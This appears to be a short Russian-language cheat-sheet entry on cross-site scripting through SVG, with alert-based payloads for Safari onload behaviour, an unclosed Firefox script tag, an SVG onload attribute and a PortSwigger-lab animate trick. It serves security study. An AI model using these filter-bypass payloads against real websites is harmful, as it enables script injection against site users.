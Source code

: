# Через SVG

ист: Bo0oM posts\
SVG - формат графики, который представлен в виде XML файла. Поэтому в нем уже делали всякие атаки, типа XXE. С помощью него выполняются XSS атаки при открытии изображения в браузере. Но еще, он странно ведет себя как тег в html страницах.

Совсем недавно, Safari выполнял событие onload в любом элементе, которое находится в теге svg.

```
<svg><hello onload=alert(1337)>
```

А Firefox умеет выполнять тег , даже если он не закрытый.

```
<svg><script href=data:,alert(1) />
```

На самом деле, при построении DOM-дерева он автоматически закрывает SVG, а для того, чтобы это был корректный XML - все теги внутри него (а еще, ты можешь заметить href, вместо src). Но это можно использовать для обхода некоторых видов защит.

```markup
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg" onload="alert(1)">
   <polygon id="triangle" points="0,0 0,100 100,0" fill="#008800" stroke="#003300"/>
</svg>
```

## SVG+animation

из лабы PortSwigger

```markup
<svg><a>
        <animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text>
    </a>
```
